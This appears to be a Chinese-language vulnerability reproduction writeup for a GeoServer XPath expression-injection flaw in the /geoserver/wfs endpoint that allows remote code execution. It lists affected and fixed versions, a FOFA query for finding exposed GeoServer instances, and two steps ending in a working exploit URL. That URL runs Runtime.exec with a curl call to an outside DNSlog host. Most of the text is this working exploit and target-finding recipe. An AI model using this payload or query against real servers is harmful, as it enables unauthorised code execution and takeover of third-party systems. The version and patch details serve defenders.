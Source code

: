 **漏洞名称**

Geoserver XPath 表达式注入致远程代码执行漏洞

**漏洞影响**

影响范围

2.25.0 <= GeoServer < 2.25.2

2.24.0 <= GeoServer < 2.24.4

GeoServer < 2.23.6



安全版本

GeoServer 2.25.2

GeoServer 2.24.4

GeoServer 2.23.6

**漏洞描述**

GeoServer是一个功能齐全,遵循OGC开放标准的开源WFS-T和WMS服务器。在/geoserver/wfs接口处发现了一个表达式注入致命令执行漏洞，攻击者可构造恶意请求利用该漏洞执行任意java代码，控制服务器。

**FOFA搜索语句**

```
app="GeoServer"
```

**漏洞复现**

第一步，使用浏览器访问/geoserver/web/wicket/bookmarkable/org.geoserver.web.demo.MapPreviewPage 路径获取typeNames的值

```url
http://x.x.x.x/geoserver/web/wicket/bookmarkable/org.geoserver.web.demo.MapPreviewPage?1
```

第二步，在此借助DNSlog来复现，先在http://dnslog.pw/dns随机搞个域名，使用浏览器访问如下路径，其中curl+0lbw6s5w.dnslog.pw表示向随机生成的dnslog子域名发送请求。

```url
http://x.x.x.x/geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=satview%3Achina_line_sate&valueReference=exec(java.lang.Runtime.getRuntime(),'curl+0lbw6s5w.dnslog.pw')
```

